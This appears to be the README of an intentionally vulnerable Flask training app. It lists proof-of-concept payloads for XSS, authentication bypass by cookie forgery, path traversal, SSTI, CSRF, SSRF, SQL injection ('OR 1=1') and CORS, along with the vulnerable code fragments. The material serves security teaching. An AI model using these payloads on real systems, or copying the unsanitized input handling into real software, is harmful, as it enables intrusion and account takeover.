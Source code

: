 # Description:
FVA Flask Vulnerable Application was developed for the purpose of learning 

# Installation
##### Clone and install the application
```BASH
git clone https://github.com/FIR-UIII/FVA.git
cd FVA
python3 -m venv {name}
source bin/activate
pip install -r requirements.txt
```
##### Install PostgreSQL
Please see the documentation: https://www.postgresql.org/docs/current/tutorial-install.html

# TODO:
* сделать заглушки в случае невалидных логина или пароля или необходиомсти аутентификации
* csrf добавить подключение к БД psql
* перенести в env основные конфигурационные настройки

# Vulnerabilities 
## XSS
Exploit/PoC:
```html
1. GET injection: http://{URL}/xss?param=<script>alert(1)</script>
2. HTML img injection: <img src=https://stackoverflow.com/ onerror=alert(1)>
3. JS  injection: <script>alert(document.domain)</script>
4. HTML tag injection: <a href="javascript:alert(document.domain);">click here</a>
5. Iframe injection: <iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
6. Iframe injection:<iframe src="http://httpforever.com/></iframe>
7. Form injection:
<form name="login" action="http://ip: port/">
 	<label for="login">login: </label>
 	<input type="text" name="login" required>
 	<br>
 	<label for="password">password: </label>
 	<input type="password" name="password" required>
 	<br>
 	<input type="submit" value="Login!">
 </form>
8. Service worker injection:
<script>
window.addEventListener('load', function() {
    var sw = "/sw.js";
    navigator.serviceWorker.register(sw, {scope: '/'})
       .then(function(registration) {
            console.log('Service Worker registered successfully');
        })
       .catch(function(err) {
            console.error('Service Worker registration failed:', err);
        });
});
</script>
```

Vulnerable code:
```
# modules/xss.py
user_input = request.args.get('param') #<-- точка ввода через query параметры xss reflected + SSTI  
return render_template('xss.html', user_input=user_input) #<-- небезопасный вывод пользователю данных без санитизации
data = request.form['user_input'] #<-- точка пользовательского ввода без валидации xss stored
```

## Authentication bypass
Exploit/PoC:
```
1. Go to root page "/" (logout from the current session if nessesary)
2. Open DevTools / Application / Cookies:
3. Create new with name:'user_id', value:'any_value'
4. Refresh page and profit
```

Vulnerable code:
```
# modules/require_authentication.py
cookie = request.cookies.get('user_id') #<--значение cookie не проверяется
```


# PATH TRAVERSAL
открыть код и найти каким образом идет обращение к картинке
'view-source:http://localhost:8888/path_travers'
'<img src="/path_travers_img/?img=/static/scripting.png" alt="what_is_that" width="100" height="100"></p>'

exploit
```URL
http://localhost:8888/path-travers-img/?img=/static/scripting.png
http://localhost:8888/path_travers_img/?img=/README.md
http://localhost:8888/path_travers_img/?img=/../venv.txt
```

# SSTI 
exploit
```URL
http://localhost:8888/ssti?param={{(9*9)}}
http://localhost:8888/ssti?param={{%20config.items()%20}}
```

# XSS via Service worker
/upload

PoC upload sw.js
```js
setInterval(function() {
  console.log("U been h@cked");
}, 5000);
```

# CSRF
/csrf через другую вкладку
python3 -m http.server 9000
Фишинговая ссылка hacker_csrf.html
http://127.0.0.1:9000/Projects/FVA/hacker_csrf.html

/csrf через GET
http://localhost:8888/change_password?id=1&new_password=h@cked

# SSRF
GET request: 
http://localhost:8888/ssrf?url=http://localhost:8888/xss

POST request: 
curl -X POST -d "url=http://localhost:8888/xss" http://localhost:8888/ssrf


# SQl injection
brew services start postgresql
psgl postgres
python init_db.py from modules.init_db import create_database
=# \dt
=# SELECT * FROM users;

injection 
login: ' OR 1=1; --
password: any

# command_injection
/go to command_injection
change cookie to admin > base64

# CORS test
python -m http.server 8000
devtools > console:
fetch('http://localhost:8888/api/users')
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error('Error:', error));

  
